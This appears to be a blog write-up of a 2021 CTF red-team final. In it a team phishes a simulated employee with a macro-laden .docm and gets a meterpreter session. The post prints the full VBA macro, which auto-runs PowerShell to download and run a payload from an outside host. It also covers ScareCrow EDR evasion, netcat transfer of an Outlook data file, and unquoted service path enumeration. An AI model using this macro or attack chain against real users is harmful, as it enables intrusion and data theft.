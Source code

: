 ```yaml
---
title: "ABC CTF Challenge"
date: 2021-08-28T03:09:07-03:00
draft: false
cover: "images/abcctf/2021_cybersecurity"
blogs: ["CTF_Challenges"]
---
```


## ABC CyberHackathon RedTeam CTF

[![CY3ER-R4T](https://cyberrat.medium.com/)
## **INTRODUCTION**

My team RedTeamNG recently came first in the The American Business Council Cybersecurity Hackathon 2021 organized by ctf.ng and major sponsors bothering from American Business Council,Microsoft,AWS, Cisco, Comercio, HP, IBM and others

This write up would be focused only on the finals and specifically the RedTeam challenges running through the methodology used to tackling it,  
other post by my team mate [Muzec](https://muzec0318.github.io/posts/abcctf.html)would be covering the Web Challenges.

## **SCENARIO**

The scenario we are presented with by the organizers is that of an Fat Fingered individual that unconsciously opens every email and attachment he gets in he’s corporate email : [obiora\_nurudeen@ctf.ng](http://mailto:obiora_nurudeen@ctf.ng)

{{< figure src="/images/abcctf/scenario.png">}}

Armed with just he’s name Nurudeen Obiora, the email above and the knowledge of the targets low awareness in basic email security,  
we thought of emulating a strategy we recently used at the DEFCON 29 RedTeam CTF by sending the target an email with the reverse shell payload attached.

Now here is where the problem begins, as with almost every field: There is a race, race between Good and Bad, Positive and Negative  
our intentions are of no good so every mechanism of security is against us which is a “replica” of a real life situation

**1st attempt:** _Sending an msfvenom payload + gmail_  
Using msfvenom we created a windows reverse shell payload


{{< figure src="/images/abcctf/msfvenom.gif">}}

Attempting to send it to the target using swaks  
swaks : SWiss Army Knife Smtp

we are immediately flagged as malicious by Gmails Egress Malware Scanner

{{< figure src="/images/abcctf/egress-gmail.gif">}}

**2st attempts:** We resulted into trying several empire powershell payload and bypasses, Persian Hydra Xor encryption with Custom keys, EgeBalci/sgn Shikata\_ga\_nai encoder, All to no avail

{{< figure src="/images/abcctf/head-boom.gif">}}

**Final attempt:** After numerous swift and failed attempt, we remembered Matthew Eidelberg talk at SourceZero Con : Remaining Invisible in the Age of EDR, a talk which showcase the ability to bypass defenses with a term called DLL unhooking using the ScareCrow Binary

In short, we can generate some raw shellcode from the software of our choice (Cobalt Strike, Metasploit, PoshC2, etc) and pass it to the Scarecrow to get a loader back that will implement some common EDR evasion techniques.

we decide to create a create a `windows/x64/meterpreter\reverse\tcp` shellcode using msfvenom \[msfvenom shellcode is a pain, its crappy and might be unstable at times\]
{{< figure src="/images/abcctf/msfvenom.gif">}}

then pass the raw shellcode to the scarecrow binary along with a random domain name for a cloned signed certificate

{{< figure src="/images/abcctf/scarecrow.png">}}

we then created a meterpreter listener using the connection variable of the shellcode as options: “would have preferred Cobalt-strike but its for the BigBoys like Rotimi:)”

## **DELIVERY**

The output of ScareCrow is an obfuscated .exe payload, being at the third stage of the “cyber attack cycle” which is delivery  
we somehow need to get the payload the victim machine and “run” it

We decided to use the old aged Microsoft Office Document with macro with the .docm extension,  
the function of the macro was to run a powershell one-liner that downloads the payload \[Powerpnt.exe\] binary hosted on our machine, store it in C:\\windows\\temp\\ and then run it

> Sub Document\_Open()  
> MyMacro  
> End Sub
> 
> Sub AutoOpen()  
> MyMacro  
> End Sub
> 
> Sub MyMacro()  
> Dim str As String  
> str = “powershell iwr -uri [http://x.x.x.x/](http://20.87.43.15/OutLook.exe)Powerpnt.exe -o c:\\windows\\temp\\Powerpnt.exe; c:\\windows\\temp\\Powerpnt.exe”  
> GetObject**(**“winmgmts:”**)**.Get**(**“Win32\_Process”**)**.Create str, Null, Null, pid  
> Shell str, vbHide  
> End Sub


{{< figure src="/images/abcctf/macro.png">}}

## **WEAPONIZATION**

Weaponized the final email and sent the .docm to the target by gmail

{{< figure src="/images/abcctf/weapon-email.png">}} 

Tick! tock! Tick! tock!  
Itchy finger Nurudeen opens the malicious document with the payload sending us a meterpreter session on our VPS \[wish it was cobalt strike, somebody buy us cobalt strike already!!\]

{{< figure src="/images/abcctf/meterpreter.png">}} 

Now the hunt for flags begin, which literally means _ENUMERATION_  
checking to see what the internal IP looks like, we find the user IP address we we already solved the unintended way by checking the header of the response email`\[FLAG8\]`

{{< figure src="/images/abcctf/header.png">}}

checking the current user directory and finding `unattend.xml` that contains `\[FLAG4\]`

{{< figure src="/images/abcctf/ctf_xml.jpeg">}}

curious about what local users are on the machine just to get an idea of what movement of privilege escalation was necessary, lateral or horizontal  
we find two more flags `\[FLAG3\]` `\[FLAG5\]`


{{< figure src="/images/cybersocctf/net_user.jpeg">}}

One of the challenges goes by the name “Registry Never Lies” which immediately prompted us to query the registry table to find \[FLAG2\]

{{< figure src="/images/abcctf/regq.jpeg">}}


The what seems to be easy challenge turned to a battle “Outlook Storage 150points”, as most application data are stored in %APPDATA% we dived into it to get our hands on the loot after a quick research we figure the ost file is the microsoft outlook data bucket trying to transfer the file using the netcat binary, it failed cause the file was currently locked with the outlook process.

We proceeded to killing the process and sending the OST to our local machine with netcat

{{< figure src="/images/cybersocctf/task_kill.jpeg">}}

Converting the ost with the steller converter we find `\[FLAG1\]`

{{< figure src="/images/cybersocctf/steller.jpeg">}}

After running out of flags to find, it was time for horizontal privilege escalation

## **LATERAL PRIVILEGE ESCALATION  
Machine Misconfigured with an Unquoted Service Path**

Sometimes it is possible to escalate privileges by abusing mis-configured services. Specifically, this is possible if path to the service binary is not wrapped in quotes and there are spaces in the path..  
If you are using a long file name that contains a space, use quoted strings to indicate where the file name ends and the arguments begin; otherwise, the file name is ambiguous.

For example, consider the string “c:\\program files\\safe software\\enjoy.exe”. This string can be interpreted in a number of ways.  
The system tries to interpret the possibilities in the following order:

**c:\\program.exe**  
**c:\\program files\\safe.exe**  
**c:\\program files\\safe software\\enjoy.exe**

if any of the directory along the path is writable and said service is running with system privileges then this misconfiguration is easily exploitable

we can enumerate and find Unquoted Service Path by using the wmic command `wmic service get name,pathname`

we can aswell check to see if the service is running with system privileges still by using wmic `wmic service get pathname,startname`


{{< figure src="/images/cybersocctf/servicepath.png">}}

> **END OF PART ONE**
>#### The difference between a noob and a hacker is that a hacker has failed more than a noob has ever tried

  {{ if .Site.Params.social.share.linkedin }}
      <li>
        <a href="https://www.linkedin.com/shareArticle?mini=true&amp;url={{ $url }}&amp;source={{ $url }}&amp;title={{ $title }}&amp;summary={{ $title }}" target="_blank" rel="noopener" aria-label="Share on LinkedIn" class="share-btn linkedin">
          {{ partial "svg/linkedin.svg" (dict "class" "widget-social__link-icon") }}
            <p>LinkedIn</p>
          </a>
      </li>
      {{ end }}

